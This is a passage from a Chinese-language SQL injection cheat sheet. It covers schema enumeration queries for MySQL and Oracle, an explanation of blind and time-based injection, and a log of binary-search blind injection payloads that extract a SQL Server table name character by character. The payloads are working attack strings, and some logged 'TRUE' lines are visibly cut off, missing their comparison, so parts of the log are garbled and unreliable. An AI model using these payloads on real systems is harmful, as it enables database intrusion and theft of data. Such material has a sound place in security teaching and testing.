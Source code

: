 详细说明可以查看文章：从基于错误的 SQL 注入中快速提取数据的方法

探测 MySQL 数据库的结构（M）

获取用户定义表

SELECT table_name FROM information_schema.tables WHERE table_schema = 'tablename'

获取列名

SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = 'tablename'

探测 Oracle 数据库的结构（O）

获取用户定义表

SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'

获取列名

SELECT * FROM all_col_comments WHERE TABLE_NAME = 'TABLE'

SQL 盲注

关于 SQL 盲注

在一个良好的生产环境应用程序中，通常你无法在页面上看到错误（error）提示，所以你也就无法通过 Union 攻击或者基于错误的攻击中提取数据。你不得不使用盲注攻击来取得数据。SQL 盲注存在有两种类型：

一般盲注：你无法在页面中看到响应，但你仍然可以通过响应或 HTTP 状态码确定查询的结果；

完全盲注：无论你怎么注入也无法从输出看出任何变化。这样你只能通过日志记录或类似的来注入。虽然这并不常见。

在一般盲注情况中你可以使用 if 语句或者 WHERE 查询来注入（一般来说很容易），在完全盲注你需要使用一些延时函数并分析响应时间。因此你可以在注入 SQL Server 时使用 WAIT FOR DELAY ‘0:0:10’，注入 MySQL 时使用 BENCHMARK() 和 sleep(10)，注入 PostgreSQL 时使用 pg_sleep(10)，还有对 ORACLE 的一些 PL/SQL 小技巧。

真实且有点复杂的 SQL 盲注攻击示例

这些输出来自于一个真实的私有 SQL 盲注工具对使用 SQL Server 的后端程序的攻击和表名遍历。这些请求完成了探测第一个表名的首字符。因为是自动化攻击，SQL 查询比实际需求复杂一些。过程中我们通过二分查找算法尝试确定字符的 ASCII 值。

TRUE 和 FALSE 标记代表查询返回的是 true 或 false。

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78-- 
 
FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103-- 
 
TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 
FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89-- 
 
TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 
FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83-- 
 